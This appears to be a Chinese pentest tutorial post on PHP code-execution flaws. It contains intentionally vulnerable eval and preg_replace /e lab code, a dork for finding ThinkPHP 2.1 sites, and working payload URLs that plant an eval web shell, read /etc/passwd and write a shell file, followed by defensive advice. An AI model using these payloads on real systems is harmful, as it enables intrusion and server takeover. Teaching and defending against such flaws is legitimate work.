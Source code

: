 +++
date = "2016-07-25T22:32:51+08:00"
description = ""
draft = false
tags = ["代码执行"]
title = "代码执行漏洞"
topics = ["Pentest"]

+++

### 0x00 代码执行
> ```
当应用在调用一些能将字符转化为代码的函数(如PHP中的eval)时，
没有考虑用户是否能控制这个字符串，这就会造成代码执行漏洞。
```

### 0x01 相关函数
> ```
PHP：eval assert
Python：exec
asp：<%=CreateObject(“wscript.shell”).exec(“cmd.exe /c ipconfig”).StdOut.ReadAll()%>
Java：没有类似函数，但采用的反射机制和各种基于反射机制的表达式引擎(OGNL、SpEL、MVEL等)有类似功能
```

### 0x02 phpcms中的string2array函数
> 这个函数可以将phpcms的数据库settings的字符串形式的数组内容转换为真实的数组
```
array(  //这个是字符串形式的数组，它并不是数组，而是字符串
    'upload_maxsize' => '2048',
    'upload_allowext' => 'jpg|jpeg|gif|bmp|png|doc|docx|xls|xlsx|ppt|pptx|pdf|txt|rar|zip|swf', 
    'watermark_enable' => '1',
    'watermark_minwidth' => '300',
    'watermark_minheight' => '300',
    'watermark_img' => '/statics/img/water/mark.png',
    'watermark_pct' => '85',
    'watermark_quality' => '80',
    'watermark_pos' => '9',
)
```
```php
function string2array($data) {
    //这个函数可以将字符串$data转化为数组
    if($data == '') 
        return array(); 
    @eval("\$array = $data;"); 
        return $array;
}
```

### 0x03 漏洞危害
> ```
执行代码
让网站写shell
甚至控制服务器
```

### 0x04 漏洞分类(也是利用点)
> ```
执行代码的函数：eval、assert
callback函数：preg_replace + /e模式
反序列化：unserialize()(反序列化函数)
```

### 0x05 漏洞挖掘
> ```
框架找漏洞，如ThinkPHP：
  inurl:index.php intext:ThinkPHP 2.1 { Fast & Simple OOP PHP Framework }
框架的URL格式如下：
  Site:Port/Module name/Method name/Property name/Preperty value
  Site:Port/index.php?m=Module_name&f=Method_name&v=Preperty_value
  
  www.xx.com:88/News/show/id/328
  www.yy.com:99/index.php?m=News&f=detail&item=23
  www.zz.com/global_cms_contentview_id_2435
```

### 0x06 搭建环境实验
* 示例一

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = $data;");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval1.png" alt="代码执行漏洞使用eval函数1.png" %}}

* 示例二

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower('$data');");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval2.png" alt="代码执行漏洞使用eval函数2.png" %}}

* 示例三

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval3.png" alt="代码执行漏洞使用eval函数3.png" %}}
<br /><br />
{{% fluid_img src="/img/post/code_execution_eval4.png" alt="代码执行漏洞使用eval函数4.png" %}}

* 示例四

> ```php
<?php
    $data = $_GET['data'];
    eval("\$ret = strtolower(\"$data\");");
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_eval5.png" alt="代码执行漏洞使用eval函数5.png" %}}
<br /><br />
{{% fluid_img src="/img/post/code_execution_eval6.png" alt="代码执行漏洞使用eval函数6.png" %}}

* 示例五

> mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])  
/e修正符使preg_replace()将replacement参数当作PHP 代码(在适当的逆向引用替换完之后)

> ```php
<?php
    $data = $_GET['data'];
    $ret = preg_replace('/<data>(.*)<\/data>/e','$ret = "\\1"',$data);
    echo $ret;
?>
```
{{% fluid_img src="/img/post/code_execution_preg_replace.png" alt="代码执行漏洞使用preg_replace函数.png" %}}

### 0x07 具体操作
> ```
# 一般找CMS相应版本漏洞，如ThinkPHP2.1
* 一句话
    http://www.xxx.com/News/detail/id/{${@eval($_POST[aa])}}
* 得到当前路径
    http://www.xxx.com/News/detail/id/{${print(getcwd()))}}
* 读文件
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_get_contents($_POST['f'])))}}
    POST的数据为：f=/etc/passwd
* 写shell
    http://www.xxx.com/News/detail/id/{${exit(var_dump(file_put_contents($_POST['f'],$_POST[d])))}}
    POST的数据为：f=1.php&d=<?php @eval($_POST['aa'])?>
```

### 0x08 漏洞防御
* 使用json保存数组，当读取时就不需要使用eval了
* 对于必须使用eval的地方，一定严格处理用户数据
* 字符串使用单引号包括可控代码，插入前使用addslashes转义
* 放弃使用preg_replace的e修饰符，使用preg_replace_callback()替换
* 若必须使用preg_replace的e修饰符，则必用单引号包裹正则匹配出的对象

<br />
下一篇：http://wyb0.com/posts/code-execution-vulnerabilities-2/